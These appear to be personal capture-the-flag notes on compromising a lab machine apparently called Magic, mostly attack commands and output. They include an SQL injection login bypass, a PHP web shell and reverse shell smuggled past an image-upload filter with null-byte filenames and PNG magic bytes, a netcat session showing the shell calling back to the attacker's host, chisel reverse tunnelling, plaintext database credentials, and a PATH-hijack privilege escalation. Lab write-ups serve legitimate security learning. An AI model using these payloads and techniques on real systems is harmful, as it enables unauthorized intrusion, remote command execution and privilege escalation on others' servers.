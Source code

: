 ### Webadmin
* http://10.129.51.88/upload.php need auth
* http://10.129.51.88/login.php
* https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

admin' or '1'='1

### Foothold
* http://10.129.51.88/images/uploads/7.jpg <- where the uploaded file goes

##### Sorry, only JPG, JPEG & PNG files are allowed.
PS, the writeup mentioned evil.php.jpg worked just fine. I didn't test that.

```bash
cp php-reverse-shell.php evil.php%00.png
```

`evil.php%00.png` -> Server: What're you trying to do here?

##### Magic Bytes
1. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md#upload-tricks

It doesn't work out after I put them directly above the php shell

2. https://book.hacktricks.xyz/pentesting-web/file-upload#magic-header-bytes

Let's do it with burp: `Content-Type: application/x-php` is necessary no mater method A or B

##### Method A: Use a legit img with burp
```bash
------WebKitFormBoundaryO4Ah2DIFGOp8Tlpk
Content-Disposition: form-data; name="image"; filename="test11.php%00.png"
Content-Type: application/x-php

ÿØÿà ..*GGIEGULXY # Try to use a legit img first. Then LEFT a full line here to help you bypass second layer magic byte check.

<?php system($_GET["cmd"]);?>

# If that still doesn't work, try put the payload into middle of an image
```

##### Method B: Hex it in
* https://en.wikipedia.org/wiki/List_of_file_signatures

```txt
89 50 4E 47 0D 0A 1A 0A -> 89504E470D0A1A0A
```

ChatGPT is sick
```bash
echo '89504E470D0A1A0A' | xxd -r -p | cat - evil.php%00.png > temp && mv temp evil.php%00.png

echo '89504E470D0A1A0A' | xxd -r -p | sed '1s/^/$(cat)\n/' > file
echo '89504E470D0A1A0A' | xxd -r -p | awk 'BEGIN{getline c < "file"} {print $0 ORS c}' > file
```

##### What now? After file uploaded
File not found even it says upload successfully. Try encode the url `evil.php%00.png` -> `evil.php%2500.png`

* http://10.129.51.88/images/uploads/evil.php%2500.png <- It works

```bash
nc -lvnp 7890
listening on [any] 7890 ...
connect to [10.10.16.4] from (UNKNOWN) [10.129.51.88] 42982
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:30:00 up  4:58,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

##### www-data
```
image/jpeg

stty rows 39 columns 165

```

### Lateral
##### SSH as www-data, But failed
```bash
www-data@ubuntu:/var/www$ cd Magic
www-data@ubuntu:/var/www/Magic$ mkdir .ssh

ssh-keygen -q -t rsa -N '' -C 'pam'
/var/www/Magic/.ssh/id_rsa

cp .ssh/id_rsa.pub .ssh/authorized_keys
chmod 600 .ssh/authorized_keys 
```

```bash
ssh -i /tmp/key www-data@10.129.223.83 # X
ssh Magic@10.129.223.83 -i key # X
```

```bash
# Chisel
./chisel server -p 8000 --reverse
./chisel client 10.10.16.9:8000 R:3306:127.0.0.1:3306

mysql -h 127.0.0.1 -u theseus -D Magic -piamkingtheseus # 3306 is default
```

admin
Th3s3usW4sK1ng

`su theseus`

### Root
##### Interesting that picked up by at least two tools
```bash
/bin/sysinfo

echo "/bin/bash" > lshw
chmod +x lshw
PATH=.:$PATH /bin/sysinfo
```

### Alternative mysql pivoting
##### Database Dump
https://0xdf.gitlab.io/2020/08/22/htb-magic.html#database-dump
```bash
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic

```